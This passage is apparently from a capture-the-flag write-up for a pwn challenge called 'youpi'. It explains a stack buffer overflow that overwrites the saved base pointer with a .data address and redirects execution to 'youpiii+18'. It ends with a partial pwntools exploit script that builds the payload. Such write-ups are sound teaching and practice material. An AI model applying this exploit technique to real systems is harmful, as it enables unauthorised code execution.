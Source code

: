 So if we are to jump to this function we need to jump to `youpiii+18`
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/7e731144-b335-4973-841a-f6b679b77164)

Let us get the offset
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/44c7bfb7-be13-4823-a2d6-8467bd1daa03)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/c71385b6-532e-4f89-a365-6098fef72d26)

The offset is 56 but now the issue is that we need to make the base pointer a known address since jumping to `youpiii+18` will make the rbp messed up

I just used the .data section 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/490c0d60-a0ae-4bc8-a704-385f7dbb9432)

With that set here's my solve [script](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/battlectf23/prequal/pwn/youpi/solve.py)

```python
#!/usr/bin/python3
from pwn import *
import warnings

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
break *0x0000000000401188
continue
'''.format(**locals())

# Binary filename
exe = './youpi'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'info'
warnings.filterwarnings("ignore", category=BytesWarning, message="Text is not bytes; assuming ASCII, no guarantees.")

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = start()

offset = 48
data = 0x00404030 # .data section

# Build the payload
payload = flat({
    offset: [  
        data,
        0x0000000000401188
    ]
})
```